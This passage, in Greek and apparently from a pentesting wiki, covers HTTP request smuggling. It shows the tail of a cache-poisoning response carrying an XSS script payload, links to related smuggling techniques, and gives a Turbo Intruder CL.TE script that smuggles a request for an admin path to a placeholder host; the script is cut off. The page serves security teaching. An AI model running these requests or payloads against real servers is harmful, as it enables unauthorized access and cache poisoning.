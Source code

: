 ```
Cache-Control: max-age=1000000
Content-Length: 50

<script>alert(“arbitrary response”)</script>
```
### Όπλιση HTTP Request Smuggling με HTTP Response Desynchronisation

Έχετε βρει κάποια ευπάθεια HTTP Request Smuggling και δεν ξέρετε πώς να την εκμεταλλευτείτε. Δοκιμάστε αυτές τις άλλες μεθόδους εκμετάλλευσης:

{% content-ref url="../http-response-smuggling-desync.md" %}
[http-response-smuggling-desync.md](../http-response-smuggling-desync.md)
{% endcontent-ref %}

### Άλλες Τεχνικές HTTP Request Smuggling

* Browser HTTP Request Smuggling (Client Side)

{% content-ref url="browser-http-request-smuggling.md" %}
[browser-http-request-smuggling.md](browser-http-request-smuggling.md)
{% endcontent-ref %}

* Request Smuggling σε HTTP/2 Downgrades

{% content-ref url="request-smuggling-in-http-2-downgrades.md" %}
[request-smuggling-in-http-2-downgrades.md](request-smuggling-in-http-2-downgrades.md)
{% endcontent-ref %}

## Turbo intruder scripts

### CL.TE

Από [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)
```python
def queueRequests(target, wordlists):

engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

```